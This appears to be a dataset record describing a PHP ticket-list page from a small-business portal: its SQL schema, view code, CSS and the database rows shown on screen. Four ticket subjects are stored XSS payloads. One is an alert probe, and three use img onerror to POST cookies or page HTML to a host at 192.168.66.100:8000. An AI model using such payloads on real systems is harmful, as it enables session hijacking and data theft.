
The app's page /app/portal_pyme/tickets.php (signed in) with its own data.
### tables this page shows
CREATE TABLE `tickets` (
  `id` int NOT NULL AUTO_INCREMENT,
  `codigo` varchar(30) NOT NULL,
  `asunto` varchar(160) NOT NULL,
  `descripcion` text NOT NULL,
  `estado` varchar(40) NOT NULL,
  `prioridad` varchar(30) NOT NULL,
  `empleado_asignado` varchar(80) NOT NULL,
  `cliente_id` int DEFAULT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `codigo` (`codigo`)
);

### app/portal_pyme/tickets.php (the view, shortened to what this page needs)
<?php
include 'config/db.php';
include 'includes/header.php';
include 'includes/sidebar.php';
$result = $conn->query("SELECT id, codigo, asunto, estado, prioridad, empleado_asignado FROM tickets ORDER BY id DESC");
?>
<section class="page-header">
    <h2>Tickets internos</h2>
    <p>Gestión de incidencias y solicitudes de soporte.</p>
</section>
<div class="card">
    <div class="table-wrapper">
        <table>
            <tr><th>ID</th><th>Código</th><th>Asunto</th><th>Estado</th><th>Prioridad</th><th>Asignado</th><th>Acción</th></tr>
            <?php while ($row = $result->fetch_assoc()): ?>
                <tr>
                    <td><?php echo $row['id']; ?></td>
                    <td><?php echo htmlspecialchars($row['codigo']); ?></td>
                    <td><?php echo htmlspecialchars($row['asunto']); ?></td>
                    <td><?php echo htmlspecialchars($row['estado']); ?></td>
                    <td><?php echo htmlspecialchars($row['prioridad']); ?></td>
                    <td><?php echo htmlspecialchars($row['empleado_asignado']); ?></td>
                    <td><a href="/portal_pyme/ticket.php?id=<?php echo $row['id']; ?>">Ver</a></td>
                </tr>
            <?php endwhile; ?>
        </table>
    </div>
</div>
<?php include 'includes/footer.php'; ?>

### app/portal_pyme/assets/css/style.css (style rules this page uses)
* { box-sizing: border-box; margin: 0; padding: 0; }
html, body { font-family: Arial, Helvetica, sans-serif; background: #f4f6f8; color: #1f2937; line-height: 1.5; }
body { min-width: 0; }
a { text-decoration: none; color: #1d4ed8; }
.page-header { margin-bottom: 24px; }
.page-header h2 { font-size: 1.6rem; margin-bottom: 6px; }
.page-header p { color: #6b7280; }
.card { background: white; border-radius: 12px; padding: 20px; margin-bottom: 20px; box-shadow: 0 2px 10px rgba(0,0,0,0.06); overflow-x: auto; }
.table-wrapper { width: 100%; overflow-x: auto; }
table { width: 100%; min-width: 700px; border-collapse: collapse; background: white; }
table th, table td { padding: 12px 10px; border-bottom: 1px solid #e5e7eb; text-align: left; vertical-align: top; }
table th { background: #f9fafb; font-size: 0.95rem; white-space: nowrap; }
table td { font-size: 0.95rem; }

### records on screen
tickets: id "10", codigo "TCK-2026-32971", asunto "<img src=x onerror=\"fetch(`http://192.168.66.100:8000`,{method:`POST`,body:document.cookie})\">", estado "Pendiente de clasificación", prioridad "Sin asignar", empleado_asignado "Sin asignar"
tickets: id "9", codigo "TCK-2026-28019", asunto "<img src=x onerror=\"fetch(`http://192.168.66.100:8000`,{method:`POST`,body:document.cookie})\">", estado "Pendiente de clasificación", prioridad "Sin asignar", empleado_asignado "Sin asignar"
tickets: id "8", codigo "TCK-2026-99988", asunto "<img src=x onerror=\"fetch(`http://192.168.66.100:8000`,{method:`POST`,body:document.body.innerHTML})\">", estado "Pendiente de clasificación", prioridad "Sin asignar", empleado_asignado "Sin asignar"
tickets: id "7", codigo "TCK-2026-60197", asunto "<img src=x onerror=alert(1)>", estado "Pendiente de clasificación", prioridad "Sin asignar", empleado_asignado "Sin asignar"
tickets: id "6", codigo "INC-2026-26351", asunto "sdfsasdfasdfasdfasdfasdf", estado "Pendiente de clasificación", prioridad "Sin asignar", empleado_asignado "Sin asignar"
tickets: id "5", codigo "TCK-2026-005", asunto "Alta nuevo empleado", estado "En revisión", prioridad "Media", empleado_asignado "soporte"
tickets: id "4", codigo "TCK-2026-004", asunto "Migración de backup", estado "Abierto", prioridad "Alta", empleado_asignado "superadmin"
tickets: id "3", codigo "TCK-2026-003", asunto "Solicitud de factura", estado "Cerrado", prioridad "Baja", empleado_asignado "contabilidad"
tickets: id "2", codigo "TCK-2026-002", asunto "VPN no conecta", estado "En revisión", prioridad "Alta", empleado_asignado "jtorre"
tickets: id "1", codigo "TCK-2026-001", asunto "Error al acceder al portal", estado "Abierto", prioridad "Media", empleado_asignado "soporte"

### other values on screen
$_SESSION['username'] "system_admin"
